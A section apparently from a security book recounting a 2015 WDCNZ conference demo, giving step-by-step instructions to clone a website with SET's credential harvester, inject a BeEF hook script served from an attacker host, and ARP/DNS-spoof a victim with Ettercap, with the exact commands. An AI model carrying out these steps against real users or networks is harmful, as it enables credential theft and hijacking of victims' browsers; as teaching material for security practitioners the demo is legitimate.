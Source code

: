 {#wdcnz-demo-3}
![](images/HandsOnHack.png)

The following attack was one of five that I demonstrated at WDCNZ in 2015. The two leading up to this one provide some context and it is probably best to look at them first if you have not already.

You can find the video of how it is played out at [http://youtu.be/ymnqTrnF85M](http://youtu.be/ymnqTrnF85M).

I> ## Synopsis
I>
I> The average victim will see a valid URL and the spoof will be undetectable.  
I> Use a website that you know victim is likely to spend some time at. This can make it easier if you are running exploits manually in BeEF.  
I> Can be used to obtain credentials or simply hook with BeEF and run any number of exploits.  
I> SET would be run on the website you want to clone. As SET only gets the index file, you will have to use the likes of `wget` to get any other missing resources you need to complete the website. Static sites are obviously the easiest. We do not really want to have to create a back-end for the cloned website. You may have to update some of the links to external resources as well in the index.html file that SET creates.  
I> Ideally you will have cleaned out the public web directory that apache hosts from `/var/www/`. If you do not, I think SET archives everything in there.  
I> You can also leverage ARP and DNS spoofing with Ettercap.

{icon=bomb}
G> ## The Play
G>
G> Run `setoolkit`
G>
G> Choose:  
G> `2) Website Attack Vectors`
G>
G> `3) Credential Harvester Attack Method`
G>
G> `2) Site Cloner`
G>
G> Enter the IP address you want to host from. This will probably be the machine you are running these commands from. Although you could host anywhere.
G>
G> Enter the URL to clone.
G>
G> `y` to start apache.
G>
G> Here you will need to either `wget` any files your missing if you are missing some, or if there are only a small number, just grab them out of your browser developer tools.
G>
G> Add the BeEF hook (`<script src="http://<BeEF comms server IP address>:3000/hook.js"></script>`) into the index.html in `/var/www/` usually at the end of the body, just before the `</body>` tag.
G>
G> From the directory that you have BeEF installed, run the BeEF ruby script: `./beef`
G>
G> Add an 'A' record of the website you ave just cloned and want to spoof into ettercaps dns file: `echo "<domainname-you-want-to-clone.com> A <IP address that is hosting the clone>" >> /etc/ettercap/etter.dns`
G>
G> Now run ettercap which is going to both ARP and DNS spoof your victim and the victims gateway with the MItM option, using dns_spoof plugin: `ettercap -M arp:remote -P dns_spoof -q -T /<gateway IP address>/ /<victim IP address>/`.
G>